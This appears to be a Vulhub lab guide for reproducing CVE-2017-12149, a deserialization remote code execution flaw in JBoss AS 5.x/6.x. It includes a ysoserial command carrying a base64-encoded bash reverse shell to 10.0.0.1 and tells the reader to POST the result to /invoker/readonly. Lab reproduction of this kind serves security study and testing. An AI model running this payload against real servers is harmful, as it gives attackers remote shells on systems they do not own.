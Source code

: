 # JBoss 5.x/6.x Deserialization Remote Code Execution (CVE-2017-12149)

[中文版本(Chinese version)](README.zh-cn.md)

Red Hat JBoss Application Server is a JavaEE-based open source application server. In JBoss AS 5.x/6.x, the ReadOnlyAccessFilter filter in the HttpInvoker component attempts to deserialize data streams from clients without performing any security checks, resulting in a deserialization vulnerability.

References:

 - https://mp.weixin.qq.com/s/zUJMt9hdGoz1TEOKy2Cgdg
 - https://access.redhat.com/security/cve/cve-2017-12149

## Environment Setup

Run the following command to start the JBoss AS 6.1.0:

```
docker compose up -d
```

The initial setup will take 1-3 minutes. After initialization is complete, visit `http://your-ip:8080/` to see the JBoss default page.

## Vulnerability Reproduce

The vulnerability exists in the `/invoker/readonly` request, where the server performs Java deserialization on the POST content submitted by users:

![](img/1.png)

Therefore, we can use conventional Java deserialization vulnerability testing methods to reproduce this vulnerability.

### Generate reverse shell payload

We use bash for the reverse shell, but since `Runtime.getRuntime().exec()` cannot use pipe operators and other bash methods directly, we need to encode it first.

Tool: http://www.jackson-t.ca/runtime-exec-payloads.html

![](img/2.png)

### Generate serialized data

We use [ysoserial](https://github.com/frohoff/ysoserial) to generate the serialized data. Since Vulhub uses a newer version of Java, we choose the CommonsCollections5 gadget:

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS8yMSAwPiYx}|{base64,-d}|{bash,-i}" > poc.ser
```

### Send the POC

The generated POC is poc.ser. Simply send this file as the POST Body to /invoker/readonly:

![](img/3.png)

Successfully obtained reverse shell:

![](img/4.png)
